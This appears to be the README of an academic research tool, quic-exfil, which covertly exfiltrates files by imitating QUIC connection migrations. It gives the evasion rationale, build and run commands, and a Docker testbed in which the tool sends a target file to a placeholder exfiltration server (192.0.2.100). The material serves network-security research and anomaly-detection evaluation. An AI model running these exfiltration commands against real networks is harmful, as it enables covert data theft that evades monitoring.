

# quic-exfil
Covert data exfiltration by mimicking QUIC server-side connection migrations.


<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/stargazers">

</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/fork">

</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/issues">

</a>


<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ul>
  <li><a href="#introduction">Introduction</a></li>
  <li><a href="#dependencies">Dependencies</a></li>
  <li><a href="#build">Build</a></li>
  <li><a href="#run">Run</a></li>
  <li><a href="#testbed">Experimental Testbed</a></li>
  <li><a href="#citation">Citation</a></li>
  <li><a href="#license">License</a></li>
  </ul>
</details>


## Introduction

QUIC-Exfil exploits the fact that QUIC allows changes in the underlying IP header, without requiring a new handshake. Therefore, from the perspective of an on-path observer, QUIC connection migrations are difficult to differentiate from potentially malicious traffic. If an adversary monitors the statistical properties of the QUIC traffic within a network, he/she can almost perfectly replicate the observable features of QUIC traffic, including a connection migration "fingerprint" and the traffic that follows.

The following figure depicts a QUIC-Exfil client-side Wireshark trace (without the required server-side acknowledgments). The second packet in the trace (highlighted in blue) represents the mimicked server-side connection migration to a new destination IP address, followed by various exfiltration payload packets. For illustration purposes, the exfiltration packets retain the same DCID as from the hijacked connection (packet #1). The inter-arrival times (i.e., time deltas) between the outgoing QUIC packets, as well as the payload sizes of the connection migration packet and the "normal" QUIC packets are sampled from a distribution of previously observed packets for the QUIC connection with DCID 29a3de9a9c2063bd0f65b34637234ece7cf876fa. Furthermore, the exfiltration payloads are encrypted using AES-256-CBC to match the entropy of typical encrypted traffic. This reduces the observable differences in legitimate QUIC traffic as compared to malicious exfiltration traffic.




## Dependencies

libpcap

Debian/Ubuntu:

```sh
sudo apt install libpcap-dev
```

macOS:

```sh
brew install libpcap
```


## Build

```sh
cargo build --release
```

## Run

```sh
sudo ./target/release/quic-exfil
```

```sh
Usage: quic-exfil [OPTIONS]

Options:
  -i, --interface <INTERFACE>  Network interface name [default: en1]
  -t, --target <TARGET>        Target file to exfiltrate [default: images/sample.jpg]
  -f, --filter <FILTER>        Pcap capture filter [default: udp dst port 443]
  -d, --dst <DST>              Exfiltration server destination IP [default: 192.0.2.100]
  -p, --port <PORT>            Exfiltration server destination port [default: 443]
  -b, --buffer <BUFFER>        Packet buffer. Specifies how many QUIC packets should be captured and analyzed before attempting to send the first exfiltration packet. Required to mimic payload lengths of previously seen traffic [default: 1000]
  -n, --number <NUMBER>        Number of packets to be exfiltrated per simulated connection migration [default: 100]
  -h, --help                   Print help
  -V, --version                Print version

```


## Testbed

This section describes the experimental setup used to evaluate `quicexfil` in a Docker-based testbed. The testbed aims to simulate a small enterprise network with multiple desktop machines generating QUIC traffic, and controlled benign connection migrations using Cloudflare's `quiche` library.

Docker compose spins up 16 containers running the `quicexfil` binary. Each container is based on [`accetto/xubuntu-vnc-novnc-firefox`](https://hub.docker.com/r/accetto/xubuntu-vnc-novnc-firefox) for a lightweight desktop GUI with Firefox and noVNC support.

Launch the setup:

```sh
docker compose up --build
```

This will build the image and launch 16 instances of the quicexfil container.

You will see console output showing accessible noVNC URLs (e.g., https://172.19.0.8:6901) for each container. These can be opened in your host browser to interact with each container’s desktop environment.

You can connect to each container using the noVNC lite clients, for example:

```sh
https://172.19.0.8:6901
```

Log in with the default password <i>headless</i> and open your browser in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google, which already use the QUIC protocol).

Running the benign QUIC server on the Host VM:

The benign QUIC server was used to create fingerprints of benign connection migrations. The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):

```sh
./target/release/quiche-server \
  --listen 192.168.100.63:4433 \
  --root html \
  --cert apps/src/bin/cert.crt \
  --key apps/src/bin/cert.key \
  --enable-active-migration
```

Replace <i>192.168.100.63</i> with the IP address of your host machine.

Connect to each container using

```sh
docker exec -it <container_id> bash
```

and then start the benign quiche connection migration script (make sure to adjust the IP address of your quiche server within the [script](https://github.com/thomasgruebl/quic-exfil/blob/main/scripts/benign_conn_migr.sh)):

```sh
./benign_conn_migr.sh
```

In 4 of the 16 containers, the experimental quicexfil tool is manually run to test potential data exfiltration over QUIC:

```sh
./target/release/quic-exfiltration -d "192.0.2.100" -i "eth0"
```

Replace <i>192.0.2.100</i> with the IP address of your exfiltration server.


## Citation

If you intend to use QUIC-Exfil, please cite the following publication:

--preliminary--

```text
@inproceedings{10.1145/3708821.3733872,
author = {Gr\"{u}bl, Thomas and Niu, Weijie and von der Assen, Jan and Stiller, Burkhard},
title = {QUIC-Exfil: Exploiting QUIC’s Server Preferred Address Feature to Perform Data Exfiltration Attacks},
year = {2025},
isbn = {798400714108},
publisher = {Association for Computing Machinery},
address = {New York, NY, USA},
url = {https://doi.org/10.1145/3708821.3733872},
doi = {10.1145/3708821.3733872},
booktitle = {Proceedings of the 20th ACM Asia Conference on Computer and Communications Security},
pages = {XXX–YYY},
numpages = {14},
keywords = {QUIC, Network Security, Data Exfiltration, Anomaly Detection},
location = {Hanoi, Vietnam},
series = {ASIA CCS '25}
}
```


## License

Distributed under the `GNU General Public License v3.0` License. See
[`LICENSE`](<https://github.com/thomasgruebl/quic-exfil/tree/main/LICENSE>)
for more information.